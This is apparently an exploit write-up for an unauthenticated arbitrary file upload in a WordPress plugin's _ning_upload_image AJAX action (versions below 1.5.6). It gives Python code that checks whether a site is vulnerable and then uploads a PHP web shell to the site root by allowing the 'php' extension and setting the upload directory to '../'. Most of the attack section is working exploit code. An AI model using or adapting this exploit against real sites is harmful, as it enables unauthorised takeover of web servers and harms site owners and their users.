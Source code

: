 Finally the actual file data to be uploaded may be passed to the `files` POST
parameter.

# Exploit

In developing our python exploit, our first task is to determine how we can call
`_ning_upload_image` as an unauthenticated user. Thanks to our `wp_ajax_nopriv_`
hook calling the relevant AJAX action is as simple as: `<base
url>/admin-ajax.php?action=_ning_upload_image`

For versions < 1.5.6 of the software the following string will be returned when
no valid post data is provided: `no files found.` This string can be used to
check if the target host is vulnerable to exploitation.

```python
def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text

	if ("no files found" in raw):
		return True;
	else:
		return False;
...
```

Next the post parameters: `allowed_file_types` and `upload` that represent the
file whitelist and upload directory respectively need to be sent as a POST
request as well as our file data.

The file upload directory is relative to the current php context, for our
exploit this is admin-ajax.php which is located in `<wp base>/wp-admin` and
therefore to upload our shell to the website root directory we supply the
following JSON data to the `upload` POST parameter: `{"dir" : "../"}` . This is
then converted into a string using `json.dumps`

Determining whether our shell has been successfully uploaded is also important
and the response received following a successful invocation of the
`_ning_upload_image` action can be used to determine this.

It was noted that upon file upload success the following string formed part of
the response text: `"success":true` and this is what was used to determine a
successful state.

```python
files = {'files[]' : open(file_path)}
data = {
  "allowed_file_types" : "php,jpg,jpeg",
  "upload" : json.dumps({"dir" : "../"})
}

print("Uploading Shell...");

response = requests.post(uri, files=files, data=data )
file_name = path.basename(file_path)

if('"success":true' in response.text):
	print("Shell Uploaded!")
	if(base[-1] != '/'):
		base += '/'
		print(base + file_name)
	else:
		print("Shell Upload Failed")
		sys.exit(1)

```
